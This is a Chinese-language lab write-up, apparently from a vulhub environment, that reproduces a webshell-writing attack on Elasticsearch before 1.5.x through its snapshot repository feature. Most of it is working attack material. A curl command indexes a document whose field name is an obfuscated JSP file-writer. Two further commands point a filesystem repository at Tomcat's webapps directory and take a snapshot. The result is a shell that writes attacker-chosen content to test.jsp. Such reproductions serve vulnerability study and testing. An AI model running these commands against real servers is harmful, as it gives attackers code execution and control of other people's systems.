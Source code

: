 Elasticsearch 1.5.x 后台getshell
================================

一、漏洞简介
------------

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

二、漏洞影响
------------

Elasticsearch 1.5.x

三、复现过程
------------

### 测试环境

编译与启动测试环境：

    docker-compose build
    docker-compose up -d

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

    curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
    {"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
    '

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

    curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
         "type": "fs",
         "settings": {
              "location": "/usr/local/tomcat/webapps/wwwroot/",
              "compress": false
         }
    }'

存储库验证并创建:

    curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
         "indices": "yz.jsp",
         "ignore_unavailable": "true",
         "include_global_state": false
    }'

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](./resource/Elasticsearch1.5.x后台getshell/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/WooYun-2015-110216/
